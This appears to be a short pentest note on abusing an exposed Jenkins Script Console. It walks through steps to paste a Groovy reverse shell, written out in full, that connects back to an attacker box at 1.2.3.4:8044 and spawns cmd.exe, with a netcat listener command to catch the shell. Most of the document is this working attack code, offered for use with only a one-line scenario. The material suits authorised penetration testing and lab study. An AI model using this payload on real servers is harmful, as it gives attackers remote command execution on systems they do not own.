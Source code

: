 # Scenario
If Jenkins server allows access to Script Console, an attacker can run a Groovy reverse shell to get user access.

# Groovy reverse shell
https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76

# Steps to exploit
Assumptions:
The Kali attack box: 1.2.3.4 - already running *nc -nvlp 8044*
1. Follow the link above - click Raw - Ctrl A + Ctrl C
2. Go to the Script Console on Jenkins server - Paste the code  
*String host="1.2.3.4";  
int port=8044;  
String cmd="cmd.exe";  
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();*
3. Back to nc8044 screen we should have the user shell.